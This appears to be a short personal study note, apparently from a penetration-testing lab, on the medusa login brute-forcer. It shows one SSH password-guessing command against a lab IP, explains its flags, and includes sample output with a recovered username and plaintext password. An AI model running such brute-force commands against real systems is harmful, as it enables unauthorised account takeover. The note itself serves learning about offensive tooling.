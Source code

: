 # 💢 medusa
Tags: #💢
Related to: 
See also: 
Previous: [[Passwd Attacks]]

---
## Description

Parallel Network Login Auditor

## Usage Examples

### Attempt SSH logins

	medusa -h 10.129.189.141 -U users.txt -P passwords.txt -M ssh 10.129.189.141

```
-h [TEXT]    : Target hostname or IP address
-U [FILE]    : File containing usernames to test
-P [FILE]    : File containing passwords to test
-M [TEXT]    : Name of the module to execute (without the .mod extension)


ACCOUNT FOUND: [ssh] Host: 10.129.189.141 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
```


---
## References
- [[]]
